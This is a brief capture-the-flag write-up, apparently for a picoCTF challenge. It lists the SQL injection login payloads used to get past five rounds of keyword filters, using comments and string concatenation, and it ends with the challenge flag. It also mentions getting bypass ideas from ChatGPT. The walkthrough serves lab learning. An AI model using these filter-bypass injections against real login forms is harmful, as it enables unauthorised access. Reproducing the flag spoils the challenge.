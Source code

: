 Very new to SQL injections... So took some help from Chatgpt
ROUND 1 there was very simple filter on php page
only or was filtered 

on the input admin , 123 in bg I saw the command ##SELECT * FROM users WHERE username='admin ' AND password='123'
so I can use comments ... done with username = admin'-- and some random password


ROUND 2-
the filter is or and like = --
our first way of commenting was banned chat gpt suggest me some other way of commenting
username = admin'/*

ROUND 3-
the filter is or and = like > < --
but it didn't ban our comment method still lol
username = admin'/* still working

ROUND 4-
now this is tough .. or and = like > < -- admin
cant use admin to log in..
now we have to break admin with concatenation operator ||
username = adm'||'in'/*

ROUND 5-
now the filter is previous + union too
we can still bypass using this 
username = adm'||'in'/* , ad'||'min'/* , a'||'dmin'/*, admi'||'n'/*

got the flag // picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}



